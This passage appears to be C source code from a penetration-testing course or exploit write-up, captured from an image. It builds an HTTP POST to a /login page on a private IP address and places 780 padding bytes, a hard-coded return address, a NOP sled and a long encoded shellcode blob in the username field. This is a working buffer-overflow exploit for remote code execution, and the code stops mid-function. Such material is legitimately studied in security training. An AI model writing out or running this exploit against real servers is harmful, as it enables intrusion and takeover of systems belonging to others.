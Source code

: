 void EvilRequest() {
    
    char request_one[] = "POST /login HTTP/1.1\r\n"
                        "Host: 192.168.50.120\r\n"
                        "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
                        "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
                        "Accept-Language: en-US,en;q=0.5\r\n"
                        <span custom-style="BoldCodeRed">"Referer: http://192.168.50.120/login\r\n"</span>
                        "Connection: close\r\n"
                        "Content-Type: application/x-www-form-urlencoded\r\n"
                        "Content-Length: ";
    char request_two[] = "\r\n\r\nusername=";

    int initial_buffer_size = 780;
    char *padding = malloc(initial_buffer_size);
    memset(padding, 0x41, initial_buffer_size);
    memset(padding + initial_buffer_size - 1, 0x00, 1);
    unsigned char retn[] = "\x83\x0c\x09\x10"; // 0x10090c83
    
    
    unsigned char shellcode[] = 
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" // NOP SLIDE
   "\xdb\xcc\xbe\xa5\xcc\x28\x99\xd9\x74\x24\xf4\x5a\x31\xc9\xb1"
   "\x52\x31\x72\x17\x83\xc2\x04\x03\xd7\xdf\xca\x6c\xeb\x08\x88"
   "\x8f\x13\xc9\xed\x06\xf6\xf8\x2d\x7c\x73\xaa\x9d\xf6\xd1\x47"
   "\x55\x5a\xc1\xdc\x1b\x73\xe6\x55\x91\xa5\xc9\x66\x8a\x96\x48"
   "\xe5\xd1\xca\xaa\xd4\x19\x1f\xab\x11\x47\xd2\xf9\xca\x03\x41"
   "\xed\x7f\x59\x5a\x86\xcc\x4f\xda\x7b\x84\x6e\xcb\x2a\x9e\x28"
   "\xcb\xcd\x73\x41\x42\xd5\x90\x6c\x1c\x6e\x62\x1a\x9f\xa6\xba"
   "\xe3\x0c\x87\x72\x16\x4c\xc0\xb5\xc9\x3b\x38\xc6\x74\x3c\xff"
   "\xb4\xa2\xc9\x1b\x1e\x20\x69\xc7\x9e\xe5\xec\x8c\xad\x42\x7a"
   "\xca\xb1\x55\xaf\x61\xcd\xde\x4e\xa5\x47\xa4\x74\x61\x03\x7e"
   "\x14\x30\xe9\xd1\x29\x22\x52\x8d\x8f\x29\x7f\xda\xbd\x70\xe8"
   "\x2f\x8c\x8a\xe8\x27\x87\xf9\xda\xe8\x33\x95\x56\x60\x9a\x62"
   "\x98\x5b\x5a\xfc\x67\x64\x9b\xd5\xa3\x30\xcb\x4d\x05\x39\x80"
   "\x8d\xaa\xec\x07\xdd\x04\x5f\xe8\x8d\xe4\x0f\x80\xc7\xea\x70"
   "\xb0\xe8\x20\x19\x5b\x13\xa3\xe6\x34\x29\x37\x8f\x46\x4d\x36"
   "\xf4\xce\xab\x52\x1a\x87\x64\xcb\x83\x82\xfe\x6a\x4b\x19\x7b"
   "\xac\xc7\xae\x7c\x63\x20\xda\x6e\x14\xc0\x91\xcc\xb3\xdf\x0f"
   "\x78\x5f\x4d\xd4\x78\x16\x6e\x43\x2f\x7f\x40\x9a\xa5\x6d\xfb"
   "\x34\xdb\x6f\x9d\x7f\x5f\xb4\x5e\x81\x5e\x39\xda\xa5\x70\x87"
   "\xe3\xe1\x24\x57\xb2\xbf\x92\x11\x6c\x0e\x4c\xc8\xc3\xd8\x18"
   "\x8d\x2f\xdb\x5e\x92\x65\xad\xbe\x23\xd0\xe8\xc1\x8c\xb4\xfc"
   "\xba\xf0\x24\x02\x11\xb1\x45\xe1\xb3\xcc\xed\xbc\x56\x6d\x70"
   "\x3f\x8d\xb2\x8d\xbc\x27\x4b\x6a\xdc\x42\x4e\x36\x5a\xbf\x22"
   "\x27\x0f\xbf\x91\x48\x1a";

    char request_three[] = "&password=A";

    int content_length = 9 + strlen(padding) + strlen(retn) + strlen(shellcode) + strlen(request_three);
    char *content_length_string = malloc(15);
    sprintf(content_length_string, "%d", content_length);
    int buffer_length = strlen(request_one) + strlen(content_length_string) + initial_buffer_size + strlen(retn) + strlen(request_two) + strlen(shellcode) + strlen(request_three);
